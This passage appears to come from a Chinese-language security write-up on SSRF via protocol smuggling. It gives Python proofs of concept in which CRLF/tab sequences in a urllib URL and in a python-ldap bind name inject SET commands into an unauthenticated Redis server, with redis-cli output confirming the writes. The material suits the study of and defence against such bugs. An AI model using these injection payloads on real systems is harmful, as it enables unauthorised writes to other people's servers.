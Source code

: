 针对python 中的

```
import urllib
import urllib.error
import urllib.request

if __name__=="__main__":
     url1 = "http://10.211.55.2:6379/a\r\nHost:baidu.com\r\n"#老的
     url3 = "http://ssrf_redis_host:6379/\t\nSET test success\t\na"
     urllib.request.urlopen(url3).code
```

未授权redis中被写入成功

```
root@19e4c139fc3e:/data# redis-cli 
127.0.0.1:6379> KEYS *
1) "test"
127.0.0.1:6379> GET test
"success"
127.0.0.1:6379> 
```

其实只要整理好思路，针对不同语言的也是类似的fuzz过程，fuzz完之后给python官方提了个issue。

####  攻击syslog

略过，关于更多方式可以见<https://hackerone.com/reports/115748>





##  利用LDAP协议

还有一种场景就是，很多开源系统中会存在LDAP测试连接，这个地方的ssrf结合csrf也可以被用来进行利用。还是以python中的python-ldap包为例，可以

```
import ldap

conn = ldap.initialize("ldap://127.0.0.1:6379")
conn.simple_bind_s("\r\nSET test1 success\r\n", "admin88")
```

结果如下

```
root@1ca44b41ffcf:/data# redis-cli 
127.0.0.1:6379> KEYS *
(empty list or set)
127.0.0.1:6379> KEYS *
1) "test1"
127.0.0.1:6379> KEYS *
1) "test1"
127.0.0.1:6379> GET test1
"success"
127.0.0.1:6379> 
```
